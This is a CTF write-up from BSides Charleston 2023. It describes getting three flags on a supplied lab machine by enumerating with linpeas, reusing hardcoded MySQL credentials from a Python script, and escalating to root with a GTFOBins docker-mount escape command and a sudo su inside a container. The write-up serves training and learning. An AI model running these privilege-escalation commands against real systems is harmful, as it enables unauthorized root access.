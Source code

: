 # BSIDES-CHARLESTON-2023-writeup

This is my writeup for the BSides Charleston CTF that took place on 11-4-2023. My team (l0wg4ng) and I were tasked to obtain 3 flags from a target machine which we had to SSH into. There was no initial foothold required as they supplied us with the SSH credentials. NOTE: The first flag had a hint before the CTF which mentioned it is found in a mysql database.

## Enumeration

After logging into the machine via SSH, I transferred over linpeas.sh via scp to check how I could privesc as soon as I got in.

```
scp linpeas.sh kingpwn@10.10.10.204:/tmp/linpeas.sh 
```

After running linpeas, I noticed that it picks up docker as a possible privesc point. I decide to focus on that later.

![1-linpeas-output.png](1-linpeas-output.png)

## Flag 1

I run `sudo -l` and notice that the current user can run tickets.py without a password. 

![2-sudo-l.png](2-sudo-l.png)

There is also a python script in the home directory which has this script that has a username and password. I also remember there being a mysql db that we had to access from the hints.

```
import mysql.connector

def create_ticket(title, description):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'

    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database="ticketDB"
    )

    cursor = connection.cursor()

    
    flag = input("Enter A Severity Flag: High or Low: ")

    ticket = (title, description, flag)
    query = "INSERT INTO tickets (title, description, flag) VALUES (%s, %s, %s)"

    cursor.execute(query, ticket)
    connection.commit()

    print(f"Ticket Created: {title}")
    cursor.close()
    connection.close()

if __name__ == "__main__":
    title = input("Enter Ticket Title: ")
    description = input("Enter Ticket Description: ")
    create_ticket(title, description)

```

When trying to access the mysqldb with the creds above, I get an error that I can't run mysql on this machine. My teammate was able to create a python script that would be able to connect to the mysqldb and allow us to get the first flag.

The working script is below:
```
import mysql.connector

def query_database(query):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'
    database = 'ticketDB'  # Replace with your actual database name

    # Establish a database connection
    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database=database
    )

    cursor = connection.cursor()

    # Execute the query
    try:
        cursor.execute(query)
        if cursor.with_rows:
            # Fetch the results and print them
            results = cursor.fetchall()
            for row in results:
                print(row)
        else:
            print("Query executed successfully")
    except mysql.connector.Error as err:
        print(f"Error: {err}")

    # Close the cursor and connection
    cursor.close()
    connection.close()

if __name__ == "__main__":
    while True:
        query = input("Enter your SQL query (or type 'exit' to quit): ")
        if query.lower() == 'exit':
            break
        query_database(query)

```

We named the script db.py and executed it, and were able to obtain the first flag.

![3-first-flag.png](3-first-flag.png)

## Flag 3

I actually found the 3rd flag before getting the 2nd one. So I am jumping ahead for now. Remembering the local enumeration I did before with linpeas, there is a potential docker escape privesc that I can run here.

I checked GTFObins and found this one:
https://gtfobins.github.io/gtfobins/docker/

I then ran this command to get the 3rd flag:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![4-docker-privesc.png](4-docker-privesc.png)

I confirmed that I can read the flag for the root user.

![5-third-flag.png](5-third-flag.png)


## Flag 2

There is still a 2nd flag that I skipped, and remembering there is a docker container in this machine. I run the following commands to check and also access the container with a bash shell:
```
docker ps
docker exec -it 8269fa564b7e bash
```
![6-docker-ps.png](6-docker-ps.png)

As soon as I get into the container, I check with `sudo -l` and see another potential privesc path.

![7-sudo-l-docker.png](7-sudo-l-docker.png)

I run the following command to privesc to root and get the final flag. 
`sudo /usr/bin/su`

![8-final-flag.png](8-final-flag.png)

I checked my dashboard and see that we have submitted all the necessary flags for this CTF.

![9-final-score.png](9-final-score.png)
